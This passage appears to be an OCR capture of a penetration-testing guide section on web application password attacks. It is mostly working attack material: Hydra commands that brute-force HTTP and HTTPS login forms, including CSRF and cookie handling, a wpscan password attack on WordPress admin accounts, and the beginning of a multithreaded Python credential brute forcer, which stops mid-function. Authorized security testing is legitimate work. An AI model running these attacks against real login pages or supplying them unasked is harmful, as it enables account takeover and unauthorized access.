 ### 10.2 Web Application Password Attacks

```bash
# HTTP form brute force with Hydra
hydra -L users.txt -P passwords.txt target.com http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# HTTPS form with cookies
hydra -L users.txt -P passwords.txt target.com https-post-form "/login:user=^USER^&pass=^PASS^&csrf=token:Invalid login:H=Cookie: PHPSESSID=abc123"

# WordPress brute force
wpscan --url https://target.com --usernames admin,administrator --passwords passwords.txt

# Custom web application brute forcer
cat > web_bruteforce.py << 'EOF'
#!/usr/bin/env python3
import requests
import threading
import time
from queue import Queue
import argparse

class WebBruteForcer:
    def __init__(self, target_url, usernames, passwords, threads=10):
        self.target_url = target_url
        self.usernames = usernames
        self.passwords = passwords
        self.threads = threads
        self.found_credentials = []
        self.queue = Queue()
        self.session = requests.Session()
        
        # Populate queue with credential combinations
        for username in usernames:
            for password in passwords:
                self.queue.put((username, password))
    
    def attempt_login(self, username, password):
        """Attempt login with given credentials"""
        try:
            # Get CSRF token if needed
            resp = self.session.get(self.target_url)
            
            # Extract CSRF token (customize as needed)
            csrf_token = self.extract_csrf_token(resp.text)
            
            # Prepare login data
            login_data = {
                'username': username,
                'password': password,
                'csrf_token': csrf_token  # Include if needed
            }
            
            # Attempt login
            resp = self.session.post(
                self.target_url,
                data=login_data,
                timeout=10,
                allow_redirects=False
            )
            
            # Check for successful login indicators
```